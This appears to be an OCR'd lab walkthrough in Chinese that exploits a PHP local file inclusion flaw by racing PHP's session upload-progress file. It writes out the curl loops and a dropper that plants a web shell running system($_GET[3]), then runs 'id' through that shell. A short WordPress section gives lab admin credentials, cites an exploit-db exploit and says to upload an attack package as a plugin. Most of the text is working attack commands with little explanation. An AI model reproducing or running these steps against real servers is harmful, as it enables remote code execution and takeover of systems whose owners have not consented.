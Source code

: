 實作
192.168.0.10/inc.php?f=info.php
檢查版本
check_Enable File Upload
on
check_Enable File Upload Progress
on

開始
python -c 'print "A"*2048*1024' >> junk.txt
wc junk.txt

創一個evildropper.txt
evildropper:<?php file_put_contents('/tmp/shell.php','<?php system($_GET[3]);?>')?>

這個視窗負責include
curl -s "http://192.168.0.10/inc.php?f=var/lib/php5/sess_uploadlupload" | grep evildropper
我們會希望不斷include
加入迴圈
while true; do (curl -s "http://192.168.0.10/inc.php?f=var/lib/php5/sess_uploadupload" | grep evildropper ); done

這個視窗負責upload
curl http://192.168.0.10/inc.php -H 'Cookie:PHPSESSID=uploadupload' -F 'PHP_SESSION_UPLOAD_PROGRESS=evildropper' -F 'files=@junk.txt'
接下來不斷upload，總會有撞到的時候，如果一直沒撞到要檢查指令有沒有錯誤


成功
修改payload
curl http://192.168.0.10/inc.php -H 'Cookie:PHPSESSID=uploadupload' -F 'PHP_SESSION_UPLOAD_PROGRESS=evildropper' -F 'files=@junk.txt'
改成
curl http://<ip_addr>/inc.php -H 'Cookie: PHPSESSID=uploadupload' -F 
'PHP_SESSION_UPLOAD_PROGRESS=<evildropper.txt' -F 'files=@junk.txt'

看看192.168.0.10/inc.php?f=/tmp/shell.php&3=id

---

### Setup WordPress
nano /etc/php5/apache2/php.ini
[Ctrl-W] OR [F6] upload_max_filesize
service apache2 restart

改2m

wordpress editor 1.1.1.1
https://www.exploit-db.com/exploits/44340
網站下面還有大神POC可以用

進wordpress後台
http://192.168.0.10/wordpress/wp-admin
> admin / qwerty@123

plugins 
把下載的site...(攻擊包)丟進去
